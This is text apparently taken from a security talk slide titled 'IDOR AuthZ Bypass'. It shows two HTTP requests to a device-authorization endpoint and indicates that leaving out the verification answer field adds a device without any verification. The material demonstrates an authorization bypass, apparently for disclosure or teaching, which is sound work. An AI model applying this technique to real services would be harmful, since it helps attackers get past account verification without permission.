

# IDOR AuthZ Bypass

POST /device-authorization HTTP/1.1
...
{“deviceAuth[remember]”:true,”deviceAuth[answer]”:”test”}
POST /device-authorization HTTP/1.1
...
{“deviceAuth[remember]”:true}

 Verification
 Required

No Verification,
Device Added